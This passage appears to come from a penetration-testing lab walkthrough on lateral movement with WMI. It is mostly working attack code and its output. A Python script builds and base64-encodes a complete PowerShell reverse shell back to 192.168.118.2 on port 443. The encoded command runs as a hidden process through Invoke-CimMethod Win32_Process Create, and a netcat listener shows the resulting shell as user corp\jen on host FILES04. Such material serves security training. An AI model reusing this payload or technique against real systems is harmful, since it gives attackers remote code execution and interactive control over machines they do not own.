 **Step 3: Execute WMI Command**
```powershell
# Invoke Win32_Process Create method
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $command}
```

**Sample Execution Output:**
```
ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

### Advanced WMI Payload Delivery

**PowerShell Reverse Shell Encoding:**
```python
# Python script to encode PowerShell payload
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
```

**Encoded Payload Execution:**
```powershell
# Execute base64-encoded reverse shell via WMI
$command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...'

Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $command}
```

**Reverse Shell Verification:**
```bash
# Netcat listener receives connection
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32> hostname
FILES04
PS C:\windows\system32> whoami
corp\jen
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname